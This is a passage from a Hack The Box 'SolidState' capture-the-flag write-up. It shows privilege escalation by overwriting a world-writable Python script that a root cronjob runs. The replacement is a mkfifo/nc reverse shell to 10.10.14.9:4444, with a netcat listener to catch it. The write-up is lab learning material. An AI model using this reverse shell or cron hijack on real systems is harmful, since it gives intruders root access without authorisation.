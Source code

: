 We are in the machine so let’s see if there is sudo privileges to privesc.

![Untitled](/HTB/solidstate-17.png)

Nothing relevant so let’s move to the use of moniProc.sh (the script which I have used in the [Cronos](https://pwndside.github.io/posts/cronos-htb) machine) in order to see scheduled jobs or cronjobs running at foreground. 

```bash
> /usr/sbin/CRON -f
> /bin/sh -c python /opt/tmp.py
> python /opt/tmp.py
< /usr/sbin/CRON -f
< /bin/sh -c python /opt/tmp.py
< python /opt/tmp.py
```

There is a cronjob running a script located at /opt/tmp.py.

![Untitled](/HTB/solidstate-18.png)

Is created by root and others can edit the file, so If the cronjob is being executed by the root user we are able to execute whatever we want as root.

```bash
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
```

The content of tmp.py is pretty convenient for us, we only need to change the command that is executing the program.

```bash
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 4444 >/tmp/f'
except:
     sys.exit()
```

I put a reverse shell with nc and set a nc listener.

```bash
nc -lv 4444
```

We are root now.

![Untitled](/HTB/solidstate-19.png)

**Thank you for reading, and happy hacking! 😄**
